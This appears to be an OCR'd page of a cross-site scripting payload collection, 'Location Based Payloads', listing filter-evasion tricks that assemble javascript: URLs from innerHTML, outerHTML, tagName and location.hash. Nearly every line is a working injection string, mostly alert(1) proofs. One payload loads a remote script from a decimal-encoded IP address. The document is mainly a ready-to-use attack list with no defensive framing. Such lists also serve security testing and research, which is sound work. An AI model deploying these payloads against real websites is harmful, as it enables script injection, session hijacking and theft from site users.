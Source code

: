1.8) Location After+Before+Itself (innerHTML+previousSibling+outerHTML)

*/"<j"-alert(1)<!– onclick=location=innerHTML%2bpreviousSibling.nodeValue%2bouterHTML>javascript:/*click me!
javascript:/*click me! + */" + <x"-alert(9)<!– onclick=location=innerHTML%2bpreviousSibling.nodeValue%2bouterHTML>
*/"<j 1=-alert(9)// onclick=location=innerHTML%2bpreviousSibling.nodeValue%2bouterHTML>javascript:/*click me!
javascript:/*click me! + */" + <x 1=" -alert(9)//" onclick=location=innerHTML%2bpreviousSibling.nodeValue%2bouterHTML>

1.9) Location After (innerHTML)

<j onclick=location=innerHTML>javascript%26colon;alert(1)//
javascript:alert(1)//

1.10) Location Inside (name+id)

<iframe id=t:alert(1) name=javascrip onload=location=name%2bid>
javascrip + t:alert(1)

2) Location Self

2.1) Location Self Inside

<svg id=?p=<svg/onload=alert(1)%2B onload=location=id>
http://domain/page?p=<svg/onload=alert(1)+
<svg id=?p=<script/src=//3237054390/1%2B onload=location=id>
http://domain/page?p=<script/src=//3237054390/1+

2.2) Location Self After

<j onclick=location=textContent>?p=%26lt;svg/onload=alert(1)>
http://domain/page?p=<svg/onload=alert(1)>

3) Location Self Plus

3.1) Location Self Plus Itself

<j%26p=<svg%2Bonload=alert(1) onclick=location%2B=outerHTML>click me!
http://domain/page?p=<j%26p=<svg%2Bonload=alert(1)%20onclick=location%2B=outerHTML>click%20me!<j&p=<svg+onload=alert(1) onclick="location+=outerHTML">

3.2) Location Self Plus After

<j onclick=location%2B=textContent>%26p=%26lt;svg/onload=alert(1)>
http://domain/page?p=<j%20onclick=location%2B=textContent>%26p=%26lt;svg/onload=alert(1)>&p=<svg/onload=alert(1)>

3.3) Location Self Plus Before

%26p=%26lt;svg/onload=alert(1)><j onclick=location%2B=document.body.textContent>click me!
http://domain/page?p=%26p=%26lt;svg/onload=alert(1)><j%20onclick=location%2B=document.body.textContent>click%20me![BODY_CONTENT]&p=<svg/onload=alert(1)>click me!

Location Based Payloads – Part II

<svg onload=alert(tagName)>
<javascript onclick=alert(tagName)>click me!
<javascript onclick=alert(tagName%2Blocation.hash)>click me!#:alert(1)
<javascript: onclick=alert(tagName%2Blocation.hash)>click me!#alert(1)
<javascript: onclick=alert(tagName%2BinnerHTML%2Blocation.hash)>/*click me!#*/alert(1)
<javascript: onclick=location=tagName%2BinnerHTML%2Blocation.hash>/*click me!#*/alert(1)
Result => javascript: + /*click me! + #*/alert(1)
<javascript: onclick=location=tagName%2BinnerHTML%2Blocation.hash>'click me!#'-alert(1)
Result => javascript: +'click me! + #'-alert(1)
<javascript: onclick=alert(tagName%2BinnerHTML%2Blocation.hash)>'click me!</javascript:>#'-alert(1)
javascript + :'click me! + #'-alert(1)
javascrip + t:'click me! + #'-alert(1)
javas + cript:'click me! + #'-alert(1)
Location Based Payloads – Part I
<svg/onload=location='javascript:alert(1)'>